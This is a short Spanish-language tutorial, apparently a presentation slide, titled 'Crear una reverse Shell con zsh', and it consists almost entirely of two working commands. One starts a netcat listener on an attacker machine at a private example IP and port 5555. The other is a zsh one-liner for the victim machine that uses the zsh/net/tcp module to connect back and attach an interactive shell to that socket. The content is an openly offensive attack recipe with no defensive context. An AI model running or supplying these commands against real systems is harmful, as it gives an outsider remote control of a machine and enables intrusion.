

# Crear una reverse Shell con zsh

Primero creamos el servidor en nuestro equipo ej: ( ip : 192.168.1.50 )
		 nc  -lvp 5555

Luego la máquina víctima deberá ejecutar :
	 /bin/zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.50 5555 && zsh >&$REPLY 	2>&$REPLY <&$REPLY'